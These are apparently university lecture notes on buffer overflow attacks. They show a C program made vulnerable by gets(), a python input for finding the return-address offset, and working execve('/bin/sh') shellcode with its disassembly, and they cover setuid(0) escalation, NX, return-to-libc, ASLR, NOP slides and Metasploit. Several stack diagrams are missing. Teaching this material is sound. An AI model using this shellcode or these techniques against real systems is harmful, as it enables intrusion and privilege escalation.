








# Computer Security and Networks - Week Ten

## Buffer Overflow Attacks

Buffer overflow attacks exploit the fact that in many languages, like  C, memory management is difficult. This leads the the ability to make the target application run arbitrary code (anything you want).

#### Example
```c
void getname() {
    char buffer[16];
    gets(buffer); //reads string from terminal, puts into buffer
    printf("Your name is %s.\n", buffer);
}
int main(void) {
    printf("Enter your name:" ); getname();
    return 0;
}
```
The above code is vulnerable to a buffer overflow attack. If you run this program but enter in a string (*name*) longer than 16 bytes, the program will crash (with a segmentation fault). If you know how x86 architecture works, you can use this fact to run some arbitrary code.

### x86 (again)


*(the stack contains command line arguments and environment variables etc.)*

With the commands:
```
PUSH 12345
PUSH 678245
```
The stack turns into:


Then with
```
POP EAX
```
to:

 *(notice how ESP changes based on the size of the stack)*

 A function call (in 32-bit) works as:
```c
void main () {
     function (1,2);
}
```
becomes:
```
PUSH <2>
PUSH <1>
CALL <function>
```
- Arguments 1 & 2 are passed on the stack.
- The CALL instruction puts the address of function into EIP and stores the old EIP on the stack.

 *(this explains why you can't have infinite recursion in programs, the stack gets used up quickly)*

Seen in the stack diagram this is:

then:


### The Attack
The instruction pointer (which is stored on the stack) controls which code executes, so if you can control this you can run whatever code you want.

##### Normal Usage


##### To crash the program


##### To run custom code

*(Often this 'custom code' is called "shell code" as it will often be code that gives the attacker access to the system terminal/shell)*

Using the code given at the start:
#### Example
```c
void getname() {
    char buffer[16];
    gets(buffer); //reads string from terminal, puts into buffer
    printf("Your name is %s.\n", buffer);
}
int main(void) {
    printf("Enter your name:" ); getname();
    return 0;
}
```
if you run using the following command ('\x20' is the hex code for the space character ' '):
```
./<program> < <(python -c "print '\x20'*40")
```
you can change the 40 to different numbers, the smallest number that causes the program to crash can be used to calculate the EIP location (or just write out the strings by hand if you don't want to use python).
(It is especially easy if you use a helper program like *gdb* which keeps track of the stack for you, helping you find EIP etc., and can break down the code into stack instructions (as shown above) and execute these sequentially as you desire).

##### A few remarks
- In the above example we simplified notation by mixing HEX and ASCII
- In 32-bit mode: EIP/EBP are 4 byte each
- In 64-bit mode: RIP/RBP are 8 byte each
- There might be some padding
- Easiest to experimentally find the offset of EIP/RIP on the stack with a debugger


### Exploiting a buffer overflow to run shell code
Here is some 23 byte shellcode (to be injected) from [this website](http://shell-storm.org/shellcode/files/shellcode-827.php). (you many need to change the final few bytes to reference your particular EIP properly)
```c
#include <stdio.h>
#include <string.h>

char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		  "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

int main(void)
{
fprintf(stdout,"Length: %d\n",strlen(shellcode));
(*(void(*)()) shellcode)();
return 0;
}
```
This C code evaluates in the x86 architecture as:
```
xor    %eax,%eax
push   %eax
push   $0x68732f2f
push   $0x6e69622f
mov    %esp,%ebx
push   %eax
push   %ebx
mov    %esp,%ecx
mov    $0xb,%al
int    $0x80
```
After running this the attacker will be in the shell and able to further exploit the system.

If the code you're exploiting is owned by the root user, you can inject code including `setuid(0);` which will then execute all further code with root permissions.

Essentially, shell code (in Linux) is assembly code for:
```
exec(“/bin/bash”, {NULL}, NULL)
```

### Defenses

#### The NX-bit
- By design, in the stack, code should be in the text area of the memory. Not on the stack.
- The NX-bit provides a hardware distinction between the text and stack.
- When enabled, the program will crash if the EIP ever points to the stack.

The standard attack against the NX-bit is to reuse code from the executable part of memory. E.g.
- Jump to another function in the program.
- Jump to a function from the standard C library (Return to libc)
- String together little pieces of existing code (Return-oriented programming).

Using libc is a fairly flexible attack:
- Libc is the C standard library.
- It is often packaged with executables to provide a runtime environment.
- It includes lots of useful calls like “system” which runs any command.
- It links to executable memory, therefore bypasses NX-bit protections.

#### Address space layout randomization (ASLR)
ASLR adds a random offset to the stack and codes base each time the program runs.
- Jumps in the program are altered to point to the right line.
- The idea is that its now hard for an attacker to guess the address of where they inject code or the address of particular functions.
- On by default in all OS
    - Off in Linux: `sudo echo 0 > /proc/sys/kernel/randomize_va_space`
    - On in Linux: `sudo echo 1 > /proc/sys/kernel/randomize_va_space`

##### NOP slide (ASLR counter-attack)
- In x86 the op code assembly instruction 0x90 does nothing.
- If the stack is 2MB, I could inject 999000 bytes of 0x90 followed by the my shell code, after the return pointer.
- I then guess a return address and hope it is somewhere in the 2MB of NOPs.
- If it is, the program slides down the NOPs to my shell code.
- Often used with other methods of guessing the randomness.

### Metasploit
- Metasploit is a framework for testing and executing known buffer overflow attacks.
- If a vulnerability in an application is well known their will be a patch for it, but also a Metasploit module for it.
- If an application is unpatched it can probably be taken over with Metasploit.
- Metasploit also includes a library of shell code which can be injected.

***

###### Reccomended Paper
“*Smashing the Stack for Fun and Profit*”  by Elias Levy (Aleph One)
